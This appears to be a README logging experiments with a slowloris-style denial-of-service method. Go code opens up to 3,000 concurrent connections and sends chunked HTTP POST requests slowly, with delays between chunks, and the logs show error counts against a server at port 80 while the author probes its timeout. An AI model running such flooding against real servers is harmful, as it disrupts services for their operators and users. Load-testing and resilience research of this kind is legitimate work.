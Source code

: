 # Anti-ddos attack

Created with [ProshNad](https://github.com/ProshNad)

## Main idea
Send chunked requests with some timeout. Will connection closed or not? If not, we will try to create 3000+ clients and start them to send those requests

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

All chunks will be sent with timeout between them

## Results

### Send 1 chunked request with timeout between chunks

```go
con, closeFunc := newConn()
defer closeFunc()

_, err := sendChunkedRequest(con, i, time.Second*1)
if err != nil {
    log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
}
```
Successfully sent

### Send 3000 parallel requests with 2seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

```shell
total errCount 0
total goodCount 2999
```

Try to set timeout between creating clients

### Send 3000 parallel requests with 10milliseconds timeout between creating clients

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
	
	time.Sleep(time.Millisecond*10)
}
```

```shell
total errCount 0
total goodCount 2999
```

### Send 3000 parallel requests with 10milliseconds timeout between creating clients and 10 seconds between chunks
```shell
total errCount 0
total goodCount 2999
```

Let's try to modify our message: we duplicate it.

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
	"POST / HTTP/1.1\r\n" +
	"Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

### Send 3000 parallel 2x-requests with 2seconds timeout between chunks 

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

Results
```shell
total errCount 856
total goodCount 2141
```

### Send 3000 parallel 2x-requests with 5seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*5)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```

Results
```shell
total errCount 2756
total goodCount 234
```

Error count was increased.

### Send 3000 parallel 2x-requests with 10seconds timeout between chunks

Results
```shell
total errCount 2999
total goodCount 0
```

### Conclusion
It seems that the server has timeout for getting full chunked request. With timeout increasing between chunks errors count are increasing. Different results in the same test mean that by means of asynchrony, some requests are executed quickly, and some are longer than expected. therefore, some fall under the time limit, while others do not. As the timeout increases, there are more and more errors.
